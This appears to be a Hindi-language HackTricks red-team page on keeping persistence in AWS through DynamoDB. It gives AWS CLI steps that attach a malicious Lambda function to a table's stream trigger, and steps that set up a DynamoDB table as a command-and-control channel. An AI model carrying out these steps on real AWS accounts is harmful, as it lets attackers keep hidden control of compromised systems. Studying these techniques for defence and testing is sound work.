 # AWS - DynamoDB Persistence

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

### DynamoDB

अधिक जानकारी के लिए पहुँचें:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Lambda बैकडोर के साथ DynamoDB ट्रिगर्स

DynamoDB ट्रिगर्स का उपयोग करके, एक हमलावर एक **गुप्त बैकडोर** बना सकता है, एक तालिका के साथ एक दुर्भावनापूर्ण Lambda फ़ंक्शन को जोड़कर। Lambda फ़ंक्शन तब सक्रिय हो सकता है जब कोई आइटम जोड़ा, संशोधित या हटाया जाता है, जिससे हमलावर को AWS खाते के भीतर मनचाहा कोड निष्पादित करने की अनुमति मिलती है।

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

स्थायीता बनाए रखने के लिए, हमलावर DynamoDB तालिका में आइटम बना या संशोधित कर सकता है, जो दुर्भावनापूर्ण Lambda फ़ंक्शन को ट्रिगर करेगा। इससे हमलावर को Lambda फ़ंक्शन के साथ सीधे इंटरैक्शन के बिना AWS खाते के भीतर कोड निष्पादित करने की अनुमति मिलती है।

### DynamoDB को C2 चैनल के रूप में

एक हमलावर DynamoDB तालिका का **कमांड और नियंत्रण (C2) चैनल** के रूप में उपयोग कर सकता है, आइटम बनाकर जिसमें कमांड होते हैं और समझौता किए गए उदाहरणों या Lambda फ़ंक्शनों का उपयोग करके इन कमांड को लाने और निष्पादित करने के लिए।
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
समझौता किए गए उदाहरण या Lambda फ़ंक्शन समय-समय पर C2 तालिका में नए आदेशों की जांच कर सकते हैं, उन्हें निष्पादित कर सकते हैं, और वैकल्पिक रूप से परिणामों को तालिका में वापस रिपोर्ट कर सकते हैं। यह हमलावर को समझौता किए गए संसाधनों पर निरंतरता और नियंत्रण बनाए रखने की अनुमति देता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
